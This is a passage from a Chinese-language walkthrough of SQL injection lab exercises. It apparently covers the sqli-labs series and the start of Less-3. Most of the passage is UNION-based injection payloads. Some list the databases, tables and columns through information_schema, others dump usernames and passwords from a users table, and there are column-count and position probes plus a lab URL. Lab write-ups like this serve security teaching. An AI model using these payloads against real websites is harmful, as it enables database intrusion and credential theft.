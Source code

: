 ```
id=1 and 1=2 union select 1,database(),3 --+   查看当前库

id=1 and 1=2 union select 1,group_concat(schema_name),3 from information_schema.schemata --+   查看所有库
```

5.爆指定库的所有表

```
id=1 and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+
或者
id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

6.爆指定表的所有字段

```
id=1 and 1=2 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users' --+
```

7.爆出字段内容

```
id=1 and 1=2 union select 1,username,password from users where id=1 --+

id=1 and 1=2 union select 1,group_concat(username),group_concat(password) from security.users --+
```

## 

# **Less-3 **

**GET - Error based - Single quotes with twist string (基于错误的GET单引号变形字符型注入)**



### 方法一：**手工UNION联合查询注入**

1.判断是否能够注入

```
http://daishen.ltd:1112/Less-3/?id=1
```

2.判断表中存在几个字段

```
id=1') order by 3 --+
```

3.判断字段位置

```
id=1') and 1=2 union select 1,2,3 --+
```
